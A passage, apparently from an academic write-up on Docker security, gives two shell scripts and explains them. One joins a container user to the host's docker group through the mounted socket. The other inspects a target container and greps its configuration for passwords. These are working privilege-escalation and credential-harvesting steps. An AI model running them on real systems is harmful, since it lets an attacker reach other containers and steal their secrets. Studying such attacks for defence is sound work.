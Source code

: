 \begin{lstlisting}[style=shellscript, caption={add\_user\_to\_docker\_group.sh}]
#!/bin/sh

#!/usr/bin/env bash
# Based on https://github.com/jenkinsci/docker/issues/196#issuecomment-179486312

DOCKER_SOCKET=/var/run/docker.sock
DOCKER_GROUP=docker
REGULAR_USER=userA

#If docker.sock exists
if [ -S ${DOCKER_SOCKET} ]; then
        #Find the GID of docker.sock
        DOCKER_GID=$(stat -c '%g' ${DOCKER_SOCKET})

        #Check if docker group exists
        exists=$(cat /etc/group | grep ${DOCKER_GROUP})
        if [ -z "$exists" ]; then
        #If group docker does not already exist
                #create group with the given gid and name
                groupadd -for -g ${DOCKER_GID} ${DOCKER_GROUP}
                #Modify user's group so as docker group is added
                usermod -aG ${DOCKER_GROUP} ${REGULAR_USER}
        else
        #If docker group exists
                #Modify docker group so as to have the given id and name
                groupmod -g ${DOCKER_GID} ${DOCKER_GROUP}
                #Modify user's group so as docker group is added
                usermod -aG ${DOCKER_GROUP} ${REGULAR_USER}
        fi
fi
\end{lstlisting}

In this script, the attacker creates - or modifies if it already exists - a group with host's gid of docker group, with the name docker group and then adds the non-root user to it by modifying the group set that the user is member of. The changes to docker group has been made and the host side part of the attacker is completed.

In order for the changes to be applied though, the non root user within the container has to re-login and start a new login session as the same user. This can be accomplished by using the command su.
Afterwards, the attacker is ready to use docker client and run the attacking script. Let's take a look at this script:

\begin{lstlisting}[style=shellscript, caption={4\_attack.sh}]
#!/bin/sh

#List the running containers and find the one we want to attack
docker ps | grep attacked_container > /Attack/dockerps
#Keed the container id
cut -d' ' -f1 dockerps > /Attack/containerid
container_id=$(cat /Attack/containerid)
#Find information about this container
docker inspect ${container_id} > /Attack/inspect_output

#Clear the files used
rm /Attack/dockerps
rm /Attack/containerid

#Print any information that includes keyword Password
cat /Attack/inspect_output | grep Password
\end{lstlisting}


